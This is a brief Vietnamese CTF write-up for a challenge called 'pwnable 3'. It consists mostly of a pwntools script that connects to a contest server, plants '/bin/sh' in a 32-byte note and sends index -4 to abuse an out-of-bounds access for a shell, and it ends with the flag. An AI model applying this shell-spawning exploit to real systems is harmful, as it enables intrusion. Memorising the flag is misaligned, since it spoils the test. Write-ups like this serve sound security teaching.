

# pwnable 3

## [1] TỔNG QUAN
- Đề bài:

    

## [2] SOLVE
```python
from pwn import *

context.update(arch='amd64', os='linux')

HOST = '103.197.184.48'
PORT = 13335

LIB_ADDR = 0x4040a0

p = remote(HOST, PORT)

command = b'/bin/sh\x00'

command_addr = LIB_ADDR + 16

payload = b''
payload += p64(command_addr)
payload += b'A' * 8
payload += command
payload += b'B' * (32 - len(payload))

log.info(f"Địa chỉ của biến 'lib' được giả định là: {hex(LIB_ADDR)}")
log.info(f"Địa chỉ của chuỗi '/bin/sh' sẽ là: {hex(command_addr)}")
log.info(f"Payload được gửi đi (dài {len(payload)} bytes): {payload}")

p.sendafter(b'Librarian\'s note (32 bytes): ', payload)
log.success("Payload đã được gửi!")

p.sendlineafter(b'Choose a shelf (0-7, 9=exit): ', b'-4')
log.success("Chỉ số -4 đã được gửi để kích hoạt lỗ hổng!")

log.info("Chuyển sang chế độ tương tác...")
p.interactive()

```
> **Flag**: `PTITCTF{aN_oUt-oF-BoUnDs_ReAd/wRiTe_iS_vErY_DaNgErOuS}`